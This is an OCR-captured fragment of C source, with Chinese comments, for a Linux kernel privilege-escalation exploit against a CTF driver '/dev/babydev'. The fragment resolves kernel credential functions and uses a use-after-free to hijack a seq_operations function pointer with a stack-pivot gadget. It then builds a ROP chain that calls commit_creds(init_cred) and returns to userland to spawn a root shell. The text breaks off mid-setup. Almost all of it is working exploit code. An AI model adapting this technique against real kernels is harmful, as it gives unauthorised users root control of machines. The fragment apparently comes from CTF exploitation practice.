 ```c
        }
        if (!strcmp(func, "commit_creds"))
        {
            commit_creds = address;
        }
        if (!strcmp(func, "init_cred"))
        {
            init_cred = address;
        }
    }
    if (!commit_creds || !prepare_kernel_cred || !work_for_cpu_fn || !init_cred)
    {
        error("Failed to get the function address.");
    }

    success("The address of prepare_kernel_cred is 0x%llx.", prepare_kernel_cred);
    success("The address of commit_creds is 0x%llx.", commit_creds);
    success("The address of init_cred is 0x%llx.", init_cred);

    size_t buf[0x300] = {0, };
    size_t fake_tty[0x50];
    size_t fake_ope[0x50];
    size_t origin_tty[0x2d0];

    // 打开题目驱动两次
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 由于seq_operation属于kmalloc-32，因此更改其大小为0x20
    ioctl(fd1, 0x10001, 0x20);

    // 释放fd1和fd2指向的这块内存，但由于UAF，fd2仍然可以对其访问
    close(fd1);

    // 通过打开/proc/self/stat来获得一个seq_operation函数表结构体
    seq_fd = open("/proc/self/stat", O_RDONLY);

    // 从seq_operations中读入几个函数的地址，必要时可以进行泄露基地址。
    // 本题没有打开kaslr，因此不太需要泄露基地址
    read(fd2, buf, 0x18);
    success("The address of function in seq_operations is 0x%llx.", buf[0]);

    // 将读入的第一个函数指针start修改为add_rsp_0x150_ret这样的gadget，使其调用时抬栈到pt_regs
    buf[0] = ADD_RSP_0x150_RET;
    // 将修改后的函数表写回seq_operations
    write(fd2, buf, 8);

    // 布置好rop链，待会通过seq_operation迁移到这里来
    int p = 0;
    rop[p++] = POP_RDI_RET;
    rop[p++] = init_cred;
    rop[p++] = commit_creds;
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0xdeadbeaf;
    rop[p++] = IRETQ_RET;
    rop[p++] = get_root_shell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;


    // 布置好pt_regs结构体。
```